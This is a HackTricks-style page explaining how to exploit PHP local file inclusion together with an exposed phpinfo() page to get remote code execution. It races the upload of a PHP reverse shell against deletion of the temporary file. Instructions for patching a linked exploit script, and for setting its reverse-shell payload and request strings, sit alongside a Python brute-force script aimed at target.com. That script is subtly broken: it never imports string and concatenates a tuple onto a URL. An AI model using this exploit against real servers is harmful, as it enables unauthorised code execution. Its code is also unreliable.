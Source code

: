 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


To exploit this vulnerability you need: **A LFI vulnerability, a page where phpinfo() is displayed, "file\_uploads = on" and the server has to be able to write in the "/tmp" directory.**

[https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

You need to fix the exploit (change **=>** for **=>**). To do so you can do:

```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```

You have to change also the **payload** at the beginning of the exploit (for a php-rev-shell for example), the **REQ1** (this should point to the phpinfo page and should have the padding included, i.e.: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), and **LFIREQ** (this should point to the LFI vulnerability, i.e.: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Check the double "%" when exploiting null char)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### Theory

If uploads are allowed in PHP and you try to upload a file, this files is stored in a temporal directory until the server has finished processing the request, then this temporary files is deleted.

Then, if have found a LFI vulnerability in the web server you can try to guess the name of the temporary file created and exploit a RCE accessing the temporary file before it is deleted.

In **Windows** the files are usually stored in **C:\Windows\temp\php<<**

In **linux** the name of the file use to be **random** and located in **/tmp**. As the name is random, it is needed to **extract from somewhere the name of the temporal file** and access it before it is deleted. This can be done reading the value of the **variable $\_FILES** inside the content of the function "**phpconfig()**".

**phpinfo()**

**PHP** uses a buffer of **4096B** and when it is **full**, it is **send to the client**. Then the client can **send** **a lot of big requests** (using big headers) **uploading a php** reverse **shell**, wait for the **first part of the phpinfo() to be returned** (where the name of the temporary file is) and try to **access the temp file** before the php server deletes the file exploiting a LFI vulnerability.

**Python script to try to bruteforce the name (if length = 6)**

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


